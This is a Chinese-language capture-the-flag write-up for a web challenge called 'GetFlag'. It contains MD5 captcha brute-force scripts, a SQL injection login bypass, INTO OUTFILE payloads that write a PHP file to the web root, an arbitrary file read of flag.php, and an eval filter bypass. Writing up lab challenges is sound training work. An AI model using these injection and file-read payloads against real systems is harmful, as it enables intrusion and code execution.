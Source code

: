 ```yaml
---
title: GetFlag
date: 2018-03-16 00:00:02
categories:
- CTF/Web
tags: 百度杯十月 SQL注入 文件包含 md5爆破
--- 
```


## 测试登录

验证码：`substr(md5(captcha), 0, 6)=b0b27d`


```python

# 带字母爆破

import hashlib
import itertools as its

words = "1234568790abcdefghijklmnopqrstuvwxyz"
r = its.product(words, repeat=5)

for i in r:
    a = "".join(i)
    md5 = hashlib.md5(a.encode('utf-8')).hexdigest()
    if(md5[0:6] == 'b0b27d'):
        print a
        break

```



```python

# 纯数字爆破

import hashlib
for i in range(1000000):
	fd = hashlib.md5()
	fd.update(str(i))
	x = fd.hexdigest()
	if(x[0:5] == code):
		print i
		break
```


测试万能密码登录成功：`admin'or'1'='1`，显然登录有一个注入点

登陆后跳转地址`/Challenges/action.php?action=file`  

页面中包含地址`./file/download.php?f=hello.txt`

## 利用点

1. /Challenges/action.php的action参数，文件包含？
2. /Challenges/file/download.php的f参数，任意文件读取？
3. 登录点存在注入

发现download.php可以使用绝对路径(/var/www/html)读取网站源码，相对路径（../）被过滤，以及位于`Challenges/file/a.php`文件的提示：`Do what you want to do, web dog, flag is in the web root dir`

## 歧途

尝试访问发现根目录`/var/www/html`下并没有flag.php，认为flag文件不是这个名字，于是想到列出网站根目录文件。于是需要getshell。

### sql写马

测试1.txt，发现并没有有权限，并且测试登录这里可以进行报错注入，这道题我甚至注出了admin的密码，不过并没什么用
```
username=admin&password=admin'+Union+Select+1,2,3+inTo+ouTfile+'/var/www/html/1.txt'+%23&captcha_md5=161645&submit=Submit
```

若有权限，可以使用如下方式继续测试
```
username=admin&password=admin'+Union+Select+1,'<?php phpinfo();?>',3+inTo+ouTfile+'/var/www/html/1.php'+%23&captcha_md5=161645&submit=Submit
```

### 文件包含

尝试在`/Challenges/action.php`利用`php://input`，然后post发送php语句执行。发现并没用，查看源码发现这里已经失去了php伪协议利用的条件。

```php
<?php

//action.php

	if (isset($_GET['action'])) {
		$model = "include/" . $_GET['action'] . ".php";
		if (!is_file($model)){
			echo "Model not exist!";
			exit; 
		} else {
			include_once($model);
		}
	}
?>
```

可见在include_once()的参数已经拼接上了`include/`字符串，所以这里无法利用除了相对路径以外的获取文件的方式。

## 根目录！！！

flag在网站根目录下，发现居然是`/var/www/html/Challenges/`目录下，你说这是网站根目录（无奈），利用download.php读到flag.php源码，访问`http:/784e6b7e50e74866a4cf3df85059c7eb49209b9d6b584d85.game.ichunqiu.com/Challenges/file/download.php?f=/var/www/html/Challenges/flag.php`

```php

<?php
$f = $_POST['flag'];
$f = str_replace(array('`', '$', '*', '#', ':', '\\', '"', "'", '(', ')', '.', '>'), '', $f);
if((strlen($f) > 13) || (false !== stripos($f, 'return')))
{
		die('wowwwwwwwwwwwwwwwwwwwwwwwww');
}
try
{
		 eval("\$spaceone = $f");
}
catch (Exception $e)
{
		return false;
}
if ($spaceone === 'flag'){
	echo file_get_contents("helloctf.php");
}

?>
```

直接download.php读取helloctf.php失败，分析源码逻辑，执行`"\$spaceone = $f"`最后判断`$spaceone===flag`，`eval`函数参数是一句完整的php语句，所以需要加上逗号，最后向`Challenges/flag.php`提交post参数`flag=flag;`







